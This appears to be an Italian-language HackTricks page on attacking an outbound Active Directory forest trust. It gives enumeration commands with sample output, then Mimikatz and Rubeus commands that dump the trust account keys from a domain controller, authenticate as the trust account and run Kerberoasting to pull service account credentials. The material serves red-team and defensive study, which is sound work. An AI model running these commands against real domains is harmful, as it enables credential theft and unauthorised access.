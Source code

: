 # External Forest Domain - One-Way (Outbound)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In questo scenario **il tuo dominio** sta **fidandosi** di alcuni **privilegi** a un principale di **domini diversi**.

## Enumerazione

### Fiducia in uscita
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

Una vulnerabilità di sicurezza esiste quando viene stabilita una relazione di fiducia tra due domini, identificati qui come dominio **A** e dominio **B**, dove il dominio **B** estende la sua fiducia al dominio **A**. In questa configurazione, viene creato un account speciale nel dominio **A** per il dominio **B**, che gioca un ruolo cruciale nel processo di autenticazione tra i due domini. Questo account, associato al dominio **B**, viene utilizzato per crittografare i ticket per accedere ai servizi tra i domini.

L'aspetto critico da comprendere qui è che la password e l'hash di questo account speciale possono essere estratti da un Domain Controller nel dominio **A** utilizzando uno strumento da riga di comando. Il comando per eseguire questa azione è:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Questa estrazione è possibile perché l'account, identificato con un **$** dopo il suo nome, è attivo e appartiene al gruppo "Domain Users" del dominio **A**, ereditando così i permessi associati a questo gruppo. Ciò consente agli individui di autenticarsi contro il dominio **A** utilizzando le credenziali di questo account.

**Attenzione:** È possibile sfruttare questa situazione per ottenere un accesso nel dominio **A** come utente, sebbene con permessi limitati. Tuttavia, questo accesso è sufficiente per eseguire l'enumerazione nel dominio **A**.

In uno scenario in cui `ext.local` è il dominio fiduciante e `root.local` è il dominio fidato, un account utente chiamato `EXT$` verrebbe creato all'interno di `root.local`. Attraverso strumenti specifici, è possibile estrarre le chiavi di fiducia di Kerberos, rivelando le credenziali di `EXT$` in `root.local`. Il comando per ottenere questo è:
```bash
lsadump::trust /patch
```
Seguendo questo, si potrebbe utilizzare la chiave RC4 estratta per autenticarsi come `root.local\EXT$` all'interno di `root.local` utilizzando un altro comando dello strumento:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Questo passaggio di autenticazione apre la possibilità di enumerare e persino sfruttare i servizi all'interno di `root.local`, come eseguire un attacco Kerberoast per estrarre le credenziali degli account di servizio utilizzando:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Raccolta della password di fiducia in chiaro

Nel flusso precedente è stato utilizzato l'hash di fiducia invece della **password in chiaro** (che è stata anche **estratta da mimikatz**).

La password in chiaro può essere ottenuta convertendo l'output \[ CLEAR ] di mimikatz da esadecimale e rimuovendo i byte nulli ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

A volte, quando si crea una relazione di fiducia, l'utente deve digitare una password per la fiducia. In questa dimostrazione, la chiave è la password di fiducia originale e quindi leggibile dall'uomo. Poiché la chiave cicla (30 giorni), la password in chiaro non sarà leggibile dall'uomo ma tecnicamente ancora utilizzabile.

La password in chiaro può essere utilizzata per eseguire l'autenticazione regolare come account di fiducia, un'alternativa alla richiesta di un TGT utilizzando la chiave segreta Kerberos dell'account di fiducia. Qui, interrogando root.local da ext.local per i membri di Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Riferimenti

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
